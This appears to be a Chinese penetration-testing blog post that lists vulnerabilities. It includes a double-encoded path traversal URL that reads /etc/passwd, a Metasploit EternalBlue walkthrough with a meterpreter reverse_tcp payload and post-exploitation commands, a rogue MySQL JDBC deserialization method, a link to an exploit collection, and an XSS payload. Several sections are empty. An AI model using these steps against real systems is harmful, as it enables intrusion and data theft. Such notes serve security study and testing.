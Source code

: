 ```yaml
---
layout: post
title:  安全信息泄露之未授权访问
categories: 安全知识
description:  zookeeper 未授权
keywords: 未授权
---
```


# 未授权类

# 信息泄露

## JetBrains .idea 项目路径未删除

例如：`https://IP地址/.idea/workspace.xml`

漏洞危害： 

它允许恶意黑客收集相关信息，这些信息可以在攻击生命周期的后期使用，以便在无法访问这些信息的情况下获得更多。

修复建议：

删除该路径。

# CVE-2019-0708 BlueKeep远程桌面代码执行漏洞


漏洞详情：

当未经验证的攻击者使用RDP连接到目标系统并发送精心编制的请求时，远程桌面服务（以前称为终端服务）中存在远程代码执行漏洞。此漏洞是预验证漏洞，不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。然后，攻击者可以安装程序；查看、更改或删除数据；或者创建具有完全用户权限的新帐户。
要利用此漏洞，攻击者需要通过RDP向目标系统远程桌面服务发送精心编制的请求。

漏洞危害：

成功利用此漏洞的攻击者可以在目标系统上执行任意代码。

# CVE-2021-21985 VMware vCenter Server 远程代码执行

# Apache 任意文件读取 (CVE-2020-17519)

例如：
```
http://<IP地址>:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

# 用友nc任意文件上传漏洞

1. [用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)
2. Liquan 连接木马


# ms17-010（Eternal blue永恒之蓝）

使用 msf 工具攻击

```
msfconsole 
# options 和 payload 设置如下
msf > use exploit/windows/smb/ms17_010_eternalblue (加载攻击模块)
msf > set RHOST 192.168.92.129（被攻击机IP）
msf >set LHOST 192.168.92.132（设置本地IP）
msf >set LPORT 4444(设置连接端口)
msf >set payload windows/x64/meterpreter/reverse_tcp（配置回链方式）

msf >show options(查看配置相关信息)
msf >run（或者exploit,开始攻击）

四、    攻击成功！查看系统信息
meterpreter>sysinfo 爆出系统信息
meterpreter>screenshot 截屏，截屏后的图片存放在/root/中
meterpreter>net user 查看用户密码

```

# MySQL JDBC反序列化漏洞

[MySQL JDBC反序列化漏洞案例
](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

发现方法：
发现后台中有数据库连接功能，经过测试使用的jdk版本较低，可进行jdbc反序列化漏洞。
在服务器上搭建恶意的mysql服务器，之后使用数据库连接功能连接恶意的mysql服务器，成功读取到/etc/host文件：

# 存储型XSS漏洞

- 超链接插入、图片插入
  ```
  "><img src=1 onerror=alter(1)>
  ```

# 版本泄露漏洞

- nginx 报错无屏蔽版本